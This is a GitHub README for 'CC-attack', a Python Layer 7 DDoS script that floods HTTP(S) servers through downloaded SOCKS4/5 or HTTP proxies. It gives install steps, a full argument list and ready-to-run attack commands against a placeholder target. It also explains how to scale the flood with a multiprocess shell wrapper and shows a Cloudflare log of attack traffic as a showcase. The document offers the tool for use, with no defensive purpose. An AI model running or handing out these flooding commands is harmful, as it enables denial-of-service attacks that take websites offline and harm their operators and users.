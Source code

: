        /////    /////    /////////////
      CCCCC/   CCCCC/   | CC-attack |/
     CC/      CC/       |-----------|/ 
     CC/      CC/       |  Layer 7  |/ 
     CC/////  CC/////   | ddos tool |/ 
      CCCCC/   CCCCC/   |___________|/

# CC-attack ![](https://img.shields.io/badge/Version-3.7.2-brightgreen.svg) ![](https://img.shields.io/badge/license-GPLv2-blue.svg)
 A script for using socks4/5 or http proxies to attack http(s) server.

 News:
- ⚠️ Proxy checker are not truly precise yet. If you want an interrupted attack, better to check. Else, you can just use the list without checking.
- ✅ Added Support of HTTP proxies
- ✅ Updated proxy list based on rewritten script.
- ✅ Proxy checker are now fixed.
- ✅ Added more proxies.
- ✅ Added KeyboardInterrupt function to avoid terminal hang.
- ✅ Fixed Slowloris type attack.
- ✅ Removed broken proxy lists.

 Info:
- ✅ Using Python3
- ✅ Added more human-like options
- ✅ Http Get/Head/Post/Slow Flood
- ✅ Random Http Header/Data
- ✅ Socks4/5 Proxies Downloader
- ✅ Socks4/5 Proxies Checker
- ✅ Customize Cookies
- ✅ Customize Post Data 
- ✅ Support HTTPS
- ✅ Support Socks4/5

## Showcase
Using multiproc.sh with socks4 on a vps
![](https://i.imgur.com/KLJIZs8.png)

Attack requests from Cloudflare activity log
![](https://user-images.githubusercontent.com/21289340/212525157-8c694b7a-d2bd-4fab-8f65-5ddf4dd9a496.png)

## Install
    If you only have one version of python:
    git clone https://github.com/Ni3zam/CC-attack.git
    cd CC-attack
    pip install -r requirements.txt
    python cc.py -help

    If you are using multiple version of python:

    git clone https://github.com/Ni3zam/CC-attack.git
    cd CC-attack
    pip3 install -r requirements.txt
    python3 cc.py -help

## Usage

    python cc.py <arguments> / python3 cc.py <arguments>

```
===============  CC-attack help list  ===============
   -h/help   | showing this message
   -url      | set target url
   -m/mode   | set program mode
   -data     | set post data path (only works on post mode)
             | (Example: -data data.json)
   -cookies  | set cookies (Example: 'id:xxx;ua:xxx')
   -v        | set proxy type (4/5/http, default:5)
   -t        | set threads number (default:800)
   -f        | set proxies file (default:proxy.txt)
   -b        | enable/disable brute mode
             | Enable=1 Disable=0  (default:0)
   -s        | set attack time(default:60)
   -down     | download proxies
   -check    | check proxies
=====================================================
```
### Some example of the usage
Download socks5 proxies as proxy.txt:
```
python3 cc.py -down -f proxy.txt -v 5
```
Attack a target with custom proxies list(socks4.txt) for 30 seconds :
```
python3 cc.py -url http://target.com -f socks4.txt -v 4 -s 30
```

## Usage of multiproc.sh
```
This script is using for increasing the performance of cc.py.
Due to the suck performance of python since it has a GIL lock,
And I am lazy to make a multiprocess version.
There is a option for linux user to increase their performance of cc.py

This script basicly just run cc.py multiple times to make it "multi-processing"

First, put this script and cc.py in the same folder.

Then prepare the proxies list by yourself or just run "python3 cc.py -down -v 4" (-v socks version)

After that, change the number of process.

At last, change atk_cmd to your command and run the script by "bash multiproc.sh"
```
Example setup of multiproc.sh (-v socks version) (-s attack time)
```
atk_cmd="python3 cc.py -url http://target.com -v 4 -s 60"

#number of process that you want
process=10

```
